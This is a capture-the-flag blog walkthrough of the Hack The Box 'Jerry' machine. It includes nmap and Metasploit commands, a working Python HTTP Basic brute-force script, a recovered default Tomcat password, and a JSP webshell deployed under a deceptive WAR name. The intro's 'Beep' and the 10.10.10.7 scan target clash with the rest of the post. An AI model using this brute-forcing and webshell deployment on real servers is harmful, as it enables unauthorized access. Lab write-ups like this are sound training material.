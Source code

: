 ```yaml
---
layout: post
title: HTB Jerry Walkthrough
categories: security
---
```


## Summary

Beep is another easy box, focusing again on simple searching for published exploits. However, unlike [Legacy]({% post_url 2020-07-30-HTB-Legacy-Walkthrough %}), there is more junk to sift through during the reconnaisance phase.

## External Reconnaisance

### NMap Port Scan

As we always do with HTB boxes, we will begin with some NMap reconnaisance. We first conduct a scan against the top 1000 ports, with scripts enabled:

`sudo nmap -v -sC -sS -oX nmap-10-10-10-7-scripted.xml 10.10.10.7`,

and follow that up with a non-script scan of all 65535 ports:

`nmap -v -p- -oX nmap-10-10-10-7-full.xml 10.10.10.7`

We find the following ports are open:

| port      | state | service          |
| --------- | ----- | ---------------- |
| 8080/tcp  | open  |    http-proxy    |

The script scan grabs the banner info from the server, showing that it is running version 7.0.88 of Apache Tomcat.

### Web Reconnaisance

Navigating to `10.10.10.95:8080` in our browser shows us a default-looking Tomcat welcome screen. This is interesting, since it indicates that the site is incomplete, and may have been put up in a rush. If the devs didn't bother to change the landing page, what else did they not bother to change?

[<img src="{{ site.baseurl }}/images/security/jerry/tomcat-welcome.png" alt="Tomcat default welcome screen" style="width: 400px;"/>]({{ site.baseurl }}/images/security/jerry/tomcat-welcome.png)

Trying to navigate away to the server status page, the manager app, or the host manager, pops up an HTTP Basic authentication prompt. Not much else we can do from here.

[<img src="{{ site.baseurl }}/images/security/jerry/tomcat-auth.png" alt="Tomcat authentication prompt" style="width: 400px;"/>]({{ site.baseurl }}/images/security/jerry/tomcat-auth.png)

A quick search online for CVEs against this version of Tomcat reveals `https://www.cvedetails.com/cve/CVE-2019-0232/`: an RCE *with* a Metasploit module!

## Exploitation

So let's try to exploit this vulnerability. We boot up Metasploit, choose the appropriate exploit module

`use exploit/windows/http/tomcat_cgi_cmdlineargs`,

set the target

`set rhosts 10.10.10.95`,

and `run` the exploit...

And it's not exploitable. Darn. 

Not seeing any other immediate options, let's see if we can brute-force the HTTP Basic login. This isn't as much of a shot in the dark as you may think; we already know that the site has not been configured particularly well (see above), so maybe they've kept a default password.

We can quickly put together a python script which can run through a list of credentials, and try each in turn against an HTTP Basic authentication endpoint:

```python
import requests
import argparse

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Does a basic bruteforce, using HTTP Basic Authentication, against a web endpoint.")
    parser.add_argument("credslist", type=str, help="A list of credentials, one set per line, in format [username]:[password]")
    parser.add_argument("target", type=str, help="The target URL to authenticate against")

    args = parser.parse_args()
    success = False

    with open(args.credslist) as f:
        for line in f:
            creds = line.strip("\n").split(":")
            response = requests.get(args.target, auth=(creds[0], creds[1]))

            if response.status_code == 200:
                print("[+] Valid credentials: {}:{}".format(creds[0], creds[1]))
                success = True
                break

    if success != True:
        print("[-] No valid credentials found.")
```

We then run this by: `python3 http-basic-auth-bruteforce.py /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html`. Leaving it a short time returns us the credentials: `tomcat:s3cret`. Very secure(!)

Using these credentials, we log in to the Web Application Manager interface. This interface allows us to upload WAR files to be run on the server. Juicy.

[<img src="{{ site.baseurl }}/images/security/jerry/tomcat-app-man.png" alt="Tomcat Web App Manager" style="width: 400px;"/>]({{ site.baseurl }}/images/security/jerry/tomcat-app-man.png)

Quickly hopping over to Github to grab a JSP webshell (I plan to code up one of my own at some point, but hey ho): `https://github.com/tennc/webshell/blob/master/jsp/jspbrowser/Browser.jsp`. We then compile this: `jar -cvf monitoring.war index.jsp`; we choose the name so as to fly under the radar a little.

Uploading this gives us access to the filesystem, from where we can apparently view files owned by `root`, because I guess they're running Tomcat as `root`. No privesc needed!

## Conclusion

Hope you enjoyed this walkthrough and the box; quite a fun little easy box. Stay tuned for more walkthroughs, as I start to catch up with the backlog of boxes I want to write up.

As always, you can head to my GitHub to see [a bit of a more "professional report"-style writeup](https://github.com/cybersecmoo/writeups/blob/jerry/htb/boxes/jerry.md), if that's your bag.

Thanks for reading!

